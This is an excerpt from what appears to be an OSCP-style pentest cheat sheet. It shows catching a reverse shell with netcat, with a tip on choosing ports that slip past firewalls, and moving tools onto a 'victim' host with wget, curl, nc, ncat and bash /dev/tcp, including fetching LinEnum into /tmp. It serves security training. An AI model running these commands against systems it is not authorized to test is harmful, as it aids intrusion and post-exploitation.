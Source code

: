 <br>

#### Catch the shell using NC

---

```bash
nc -lvnp 9999
#listen on Port 9999
```

- *start a listener on Port 9999*
- *prefer to use stealthier ports, sometimes a firewall will block you*

<br>

# File Transfers

### **General**

<br>

#### wget

---

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh

curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

- *download LinEnum.sh and execute and save it to /tmp*

#### Nc and NCAT

---

```bash
nc -nlvp 4444 > incoming.exe
nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
nc -q 0 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe

## Kali
ncat --send-only 192.168.45.226 8000 < wget.exe
## Victim
ncat -l -p 8000 --recv-only > thefile

## Receive the file with BASH only
cat < /dev/tcp/192.168.45.226/443 > wget.exe
```

- *transfer files using nc and ncat*

#### Socat

---